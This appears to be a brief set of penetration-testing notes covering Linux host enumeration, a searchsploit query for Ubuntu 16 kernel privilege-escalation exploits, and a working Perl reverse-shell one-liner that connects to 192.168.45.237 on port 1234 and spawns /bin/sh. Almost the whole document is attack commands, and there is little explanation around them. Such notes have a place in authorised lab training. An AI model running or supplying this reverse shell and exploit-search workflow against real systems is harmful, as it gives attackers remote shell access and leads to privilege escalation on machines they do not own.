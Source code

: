 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Print system identification:
```
cat /etc/issue
```
Print version and system architecture:
```
uname -r
```
```
arch
```

Use searchsploit to look for exploits a filter output using grep -v:
```
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
```
perl -e 'use Socket;$i="192.168.45.237";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```